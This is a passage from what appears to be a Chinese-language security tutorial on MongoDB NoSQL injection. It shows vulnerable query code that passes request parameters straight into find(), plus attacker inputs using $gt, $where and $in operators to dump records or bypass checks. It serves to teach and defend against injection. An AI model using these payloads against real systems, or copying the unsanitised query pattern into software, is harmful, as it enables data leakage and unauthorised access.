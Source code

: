 目标：使用非法的类型结构绕过预期逻辑。

```javascript
db.products.find({ price: req.query.price })  // 用户输入 price=100
```

**攻击者提交：**

```http
GET /products?price[$gt]=0
```

**`$gt` 表示 **“greater than”**（大于）的意思。**

查询变为：

```javascript
{ price: { $gt: 0 } }  // 返回所有价格大于0的商品
```

造成数据泄露或意外查询结果。

#### JavaScript 注入（$where 注入）

前提：MongoDB 启用了 `$where` 操作符支持 JavaScript 执行。

攻击者提交：

```http
username=admin&$where=1==1
```

查询变为*

```javascript
{
  username: "admin",
  $where: "1==1"
}
```

所有记录都被查询出，可造成越权访问。

#### 数组参数注入

场景*

```javascript
db.items.find({ category: req.query.category })  // 期望 category 是字符串
```

攻击者提交*

```http
category[$in]=electronics&category[$in]=toys
```

**`$in` 表示 “字段值在指定数组中”，即判断字段是否属于某几个值之一。**

变为：

```javascript
{ category: { $in: ["electronics", "toys"] } }
```
